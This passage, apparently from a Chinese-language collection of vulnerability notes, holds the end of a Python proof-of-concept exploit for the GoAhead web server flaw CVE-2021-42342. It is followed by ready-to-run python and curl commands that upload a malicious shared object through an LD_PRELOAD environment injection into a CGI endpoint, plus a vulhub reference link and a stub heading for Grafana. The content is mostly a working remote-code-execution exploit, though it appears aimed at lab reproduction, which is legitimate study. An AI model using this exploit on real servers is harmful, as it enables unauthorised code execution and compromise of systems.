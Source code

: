 ```py
#payload#{padding}
--{boundary}--
'''.replace('\n', '\r\n')
    data = data.encode().replace(b'#payload#', payload)
    client.send(data)
    resp = client.recv(20480)
    print(resp.decode())


def main():
    target = sys.argv[1]
    payload_filename = sys.argv[2]

    with open(payload_filename, 'rb') as f:
        data = f.read()

    if len(data) > PAYLOAD_MAX_LENGTH:
        raise Exception('payload size must not larger than %d', PAYLOAD_MAX_LENGTH)

    parts = urlparse(target)
    port = parts.port
    if not parts.port:
        if parts.scheme == 'https':
            port = 443
        else:
            port = 80

    context = ssl.create_default_context()
    with socket.create_connection((parts.hostname, port), timeout=8) as client:
        if parts.scheme == 'https':
            with context.wrap_socket(client, server_hostname=parts.hostname) as ssock:
                exploit(ssock, parts, data)

        else:
            exploit(client, parts, data)


if __name__ == '__main__':
    main()
```

`python poc.py http://10.30.1.112:8080/cgi-bin/index /path/to/hack.so`

`curl -X POST http://10.30.1.112:8080/cgi-bin/index -F "LD_PRELOAD=/proc/self/fd/0" -F file='@poc.so;encoder=base64'`

* 参考链接：
  * https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2021-42342/README.zh-cn.md

## Grafana

Grafana是一个开源的度量分析与可视化套件。
